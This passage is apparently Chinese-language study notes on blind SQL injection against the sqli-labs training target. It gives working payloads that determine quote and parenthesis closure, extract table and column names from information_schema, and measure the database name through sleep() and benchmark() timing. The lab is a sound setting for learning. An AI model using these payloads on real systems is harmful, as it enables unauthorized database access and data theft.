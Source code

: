 ### 爆出数据表的名称
只事例第一个字符

```
id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=1 --+
```

## 爆出字段


```
id=1' and (select length(column_name) from information_schema.columns where table_schema='爆出的表名' limit 0,1)=1 --+ //未验证
```


# 注释符被过滤的时间盲注
使用sql-labs靶场 less7
## 判断注入类型
首先输入`id=1`页面变化
输入`id=1'`返回错误

```
You have an error in your SQL syntax
```
不再提示详细错误,只是说明是语法错误,但是依然可以判断,这里存在单引号注入
输入`id=1' --+`
返回错误页面,可以得知注释符号起作用了,而且只用单引号无法闭合,判断有括号,开始测试括号数目.(如果不起作用,返回页面应该和`hid=1`一样)
`id=1') --+` 错误
`id=1')) --+` 正确 判断用一个单引号加两个括号闭合

**注意**一般在sql语句中引号不会括在号的外层,已知注入类型后,增加括号可以判断出括号的数量.

再输入测试语句`id=1')) and 1=1 --+`返回正常页面
`id=1')) and 1=2`返回错误页面(这个less把所有非正常返回都作为语法错误返回)
由此判断可以使用盲注,这里我是用时间型盲注(也可以使用布尔型)

## 爆出数据库长度
利用burpsuit

```
id=1')) and sleep(if(length(database())=1,5,0)) --+
```
或者使用`benchmark()`函数

```
id=1')) and benchmark(if(length(database())=1,5000,0),MD5
('test')) --+
```
## 爆出数据库名称
只演示第一个字段
